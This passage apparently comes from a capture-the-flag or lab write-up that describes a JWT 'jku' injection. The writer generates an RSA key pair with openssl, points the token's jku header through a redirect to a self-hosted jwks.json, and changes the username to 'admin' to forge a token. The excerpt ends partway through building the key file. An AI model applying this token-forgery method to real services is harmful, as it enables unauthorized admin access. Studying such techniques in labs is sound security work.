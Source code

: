 Basically, the exploit requires us to generate a private-public key pair, and use that to spoof tokens after replacing the `jku` parameter with a URL to our machine's own `jwk.json` file. So first, we need to generate a key pair:

```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Afterwards, we can head back to jwt.io and create a new token with a new URL. Since there's a `redirect` functionality available, I'll just use that to make it request the `jwks.json` file to our machine. Then, we can also change the username to `admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (438) (2).png" alt=""><figcaption></figcaption></figure>

Then we need to create the `jwks.json` file. This can be done by first downloading the format from the machine, and then replacing the values in it with our own key pair's.&#x20;

```
$ openssl rsa -in publickey.crt -pubin -text -noout             
Public-Key: (2048 bit)
Modulus:
    00:c4:2e:63:41:93:eb:5b:6a:bf:6e:a9:41:8b:5f:
    ec:28:35:f1:c3:50:b3:dc:21:40:43:06:6b:f0:ca:
    d4:8a:03:9f:73:a4:75:79:6a:f6:0d:53:d0:7c:d1:
    21:d4:cc:fd:5d:bf:4d:7b:ac:28:c6:e1:a9:c3:97:
    4b:9f:46:7f:52:de:33:a7:27:e8:e2:eb:67:07:56:
    b2:99:94:58:c5:02:9c:c6:de:cf:8f:12:b5:3b:51:
    02:9a:5e:7a:98:cc:83:1c:20:67:8d:c3:e6:8a:92:
    ce:23:47:f3:6b:0b:7a:73:0b:a8:8e:d9:36:97:09:
    00:86:3e:9e:c9:97:b1:be:17:76:28:3e:1a:31:b2:
    a8:b6:8f:26:0a:2f:ae:14:65:d8:87:c4:6b:6d:49:
    40:4d:3a:fb:10:c3:b8:9d:33:80:8e:e4:71:97:f3:
    26:85:33:8c:6e:79:e3:61:7b:66:ae:c3:dc:ee:78:
```